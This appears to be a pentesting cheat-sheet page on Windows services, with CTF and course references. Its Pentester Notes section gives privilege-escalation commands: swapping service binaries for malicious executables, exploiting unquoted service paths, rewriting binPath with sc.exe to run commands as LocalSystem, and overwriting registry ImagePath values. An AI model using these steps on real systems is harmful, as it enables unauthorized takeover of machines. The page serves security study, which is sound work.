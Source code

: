 # Windows services

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

You can learn more about Windows services [here](/operating-systems/windows/_knowledge/index.md#windows-services).

* 🗺️ List services

```shell!
PS> Get-Service
PS> net start
PS> sc.exe query # with infos
```

* 🔎 Get more info about a service

```shell!
PS> sc.exe qc xxx
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: xxx
  [...]
  BINARY_PATH_NAME   : C:\[...]\service.exe
  [...]
```
</div><div>

* 🔑 To view the permissions of the user on a service

```shell!
PS> .\PsService.exe security service_name
PS> sc.exe sdshow service_name
PS> accesschk.exe ./xxx.exe -v
PS> accesschk.exe /accepteula -quvcw ./xxx.exe
```

🔥 In CTFs, you may be able to start/stop the service manually, while you may also do that if you are a [server operator](privs.md#server-operators).

```shell!
PS> sc.exe stop xxx
PS> # do your job
PS> sc.exe start xxx
```

🍀 Notable services: `vss`, `dns`, `Spooler`, `wuauserv`, `AppReadiness`, etc.
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Insecure permissions

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

The current user may be able to replace the service with a malicious executable (ex: revshell.exe)

```shell!
PS> icacls C:\[...]\service.exe
PS> move C:\[...]\service.exe C:\[...]\service.exe.old
PS> icacls C:\[...]\malicious.exe /grant Everyone:F
```

<br>

#### Unquoted Service Path

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![steelmountain](../../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

If the service is using a PATH in which there are spaces, the service isn't quoted, and the hacker can create files, then the hacker may create an executable that is executed with the rest of the path in argument.

```shell!
PS> icacls $Env:appdata\Vulnerable Program\service.exe
PS> move C:\[...]\malicious.exe $Env:appdata\Vulnerable.exe
PS> # the service will execute
PS> # $Env:appdata\Vulnerable.exe Program\service.exe
```

You can find such services using:

```shell!
CMD> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

```shell!
PS> wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | Where-Object {$_ -notmatch '".*?"' -and $_ -match '\S'}
```
</div><div>

#### Insecure Service Permissions

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

It occurs if we can edit the permissions of a service, such as being able to change the location of the binary. Use the [accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) command. If the user is granted `SERVICE_ALL_ACCESS` on the service, then have fun.

```shell!
PS> sc.exe config xxx binPath=C:\[...]\malicious.exe
PS> sc.exe config xxx binPath=C:\[...]\malicious.exe obj= LocalSystem
```

A common approach to execute a command is to use:

```ps
PS> sc.exe config XXX binPath= "cmd /c <some command here>"
PS> sc.exe config XXX binPath= "C:\windows\system32\cmd.exe /c <some command here>"
PS> sc.exe start XXX # fails but executed the command
```

<br>

#### Insecure Registry

Windows stores in `hklm\System\CurrentControlSet\services` variable service configurations. ImagePath reference the path to the executable related to a service. We may be able to override some values:

Detect

```shell!
PS> .\accesschk.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services
```

Exploit

```shell!
PS> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\XXX -Name "ImagePath" -Value "<some command here>"
PS> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\XXX -Name "ImagePath" -Value "C:/<path_to_executable>"
```

<br>

#### Well-Known CVEs

* [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675) (CVE-2021-1675) vulnerability in Spooler service.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* It's recommended to use service accounts for services.
* Most services run with LocalSystem privileges by default
* From the SCM, we can configure an application to be executed if a service fails. If one was configured, it can be exploited.
</div><div>
</div></div>